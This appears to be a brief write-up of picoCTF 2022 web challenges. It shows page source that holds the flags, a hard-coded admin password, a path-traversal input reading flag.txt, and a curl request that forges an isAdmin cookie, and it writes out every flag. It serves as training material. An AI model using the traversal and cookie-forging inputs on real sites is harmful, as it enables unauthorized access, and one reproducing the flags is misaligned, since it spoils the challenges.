 # picoCTF 2022

## Includes
view-source:http://saturn.picoctf.net:54634/style.css
```CSS
body {
  background-color: lightblue;
}

/*  picoCTF{1nclu51v17y_1of2_  */
```

view-source:http://saturn.picoctf.net:54634/script.js
```JavaScript
function greetings()
{
  alert("This code is in a separate file!");
}

//  f7w_2of2_df589022}
```

## Inspect HTML

```HTML
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>On Histiaeus</title>
  </head>
  <body>
    <h1>On Histiaeus</h1>
    <p>However, according to Herodotus, Histiaeus was unhappy having to stay in
       Susa, and made plans to return to his position as King of Miletus by 
       instigating a revolt in Ionia. In 499 BC, he shaved the head of his 
       most trusted slave, tattooed a message on his head, and then waited for 
       his hair to grow back. The slave was then sent to Aristagoras, who was 
       instructed to shave the slave's head again and read the message, which 
       told him to revolt against the Persians.</p>
    <br>
    <p> Source: Wikipedia on Histiaeus </p>
	<!--picoCTF{1n5p3t0r_0f_h7ml_1fd8425b}-->
  </body>
</html>

```

## Local Authority
```
view-source:http://saturn.picoctf.net:54554/login.php
view-source:http://saturn.picoctf.net:54554/secure.js

```
```JavaScript

function checkPassword(username, password)
{
  if( username === 'admin' && password === 'strongPassword098765' )
  {
    return true;
  }
  else
  {
    return false;
  }
}

```

## Forbidden path
```
../../../../flag.txt
```
 picoCTF{7h3_p47h_70_5ucc355_6db46514}

## Power Cookie
curl -XGET --header "Cookie: isAdmin=1" http://saturn.picoctf.net:55287/check.php

```HTML
<html>
<body>
<p>picoCTF{gr4d3_A_c00k13_5d2505be}</p>
</body>
</html>
```